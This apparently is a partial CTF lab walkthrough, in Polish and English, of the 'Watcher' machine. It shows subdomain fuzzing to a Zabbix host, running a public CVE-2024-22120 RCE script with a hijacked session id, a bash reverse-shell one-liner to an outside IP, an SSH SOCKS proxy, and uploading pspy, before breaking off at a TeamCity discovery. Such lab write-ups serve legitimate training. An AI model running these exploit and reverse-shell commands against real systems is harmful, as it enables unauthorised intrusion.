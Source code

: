 # Watcher
Linux	Medium	created by **DarkCaT & whatev3n**

```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://watcher.vl/
```

szukamy sub domenek
```
ffuf -u http://watcher.vl/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.watcher.vl" -c -mc all -fs 4991
zabbix                  [Status: 200, Size: 3946, Words: 199, Lines: 33, Duration: 217ms]
```

![{F43BE01A-230F-418B-B6B7-681D3D8FA0BF}](https://github.com/user-attachments/assets/4430e78a-d969-4aca-a972-08784c9628c6)

2001-2023 więc wiemy, że wersja z 2023 roku

![{22B255E3-418C-4741-B532-1C8D78336F90}](https://github.com/user-attachments/assets/27649b84-0b1d-4f90-b839-ef8bce630e41)

zaloguj jako gość działa.

![{13BB3659-80CB-4C27-848C-BA248CEF5F28}](https://github.com/user-attachments/assets/df94fb17-dc15-4b8a-8ed9-c7a2a34a90e2)

ale wróćmy do podatności. Jak 2023 to zakładam exploit z 2023-2024

![{EACCC4F3-7C56-47F6-9C86-3991C6B8FEDE}](https://github.com/user-attachments/assets/e17fc07b-a116-41d6-9ca5-c2d3b4182d4a)

I will try this `https://github.com/W01fh4cker/CVE-2024-22120-RCE`.

we need find `sid` and `hostid`

![{3B75815E-5906-421B-955B-43286C38CEF5}](https://github.com/user-attachments/assets/388e6570-8939-40cd-96d5-56559c6da35f)

hostid in url

![{37BD60F4-0C5C-49F1-BC5E-AC5936CABCB1}](https://github.com/user-attachments/assets/987f0efb-aac3-4efa-a603-a5990f7225a3)

sid in cookie
```
python3 CVE-2024-22120-RCE.py --ip zabbix.watcher.vl --sid a757cb51021879a08e1ffdc47348a0d7 --hostid 10084
```
- 10 minutes of waiting..

So we are zabbix user on main system. Nice

![{E9DE05FF-FA60-4C04-832C-750A56EA83D6}](https://github.com/user-attachments/assets/4ddff038-29c8-4626-a919-481671c6343a)

It is medium.. really?

![{EDF0191B-D5EF-4F09-978C-63E60AD7B737}](https://github.com/user-attachments/assets/fbdd479a-e601-4e1c-bd84-052f80643373)

spawn more stable shell and follow the commends
```
bash -c 'bash -i >& /dev/tcp/10.8.4.124/9001 0>&1'
```

![{604DA508-0AE4-4979-BAC9-7ECF3D28A963}](https://github.com/user-attachments/assets/45b349b5-df18-432c-b5ab-76a77e1d97a4)

![{B3718D34-ED70-49E8-86B4-E7DD6821CCB5}](https://github.com/user-attachments/assets/720c4af3-7fae-46b2-a499-56414067270d)

so it works but we can't create shell. This is not problem.

```
ssh zabbix@10.10.79.86 -i id_rsa -D 1080 -N
```
We created socks proxy without creatign shell.
We don't know what to do so enumerate time (with `nc` shell)

![{C47C2246-8503-4388-BD51-651FD146DB5E}](https://github.com/user-attachments/assets/5b615f30-c02d-4f0e-958e-f6ade9c09079)

Coś zdaje się latać na porcie `8111`

![{5F1C46EC-AABA-47A6-AB55-BC2D8E4E8590}](https://github.com/user-attachments/assets/67d11e44-8929-46b3-8bf5-d4f43bb89233)

Looks like `TeamCity` hehe
Lets upload some enumeration tools on machine. `https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64`

![{67C34E22-C0F9-4F0E-879B-482CA85ACCE9}](https://github.com/user-attachments/assets/0945cb89-3af1-4c9b-b7e4-5c28197ce4fe)

some sort of login script was run



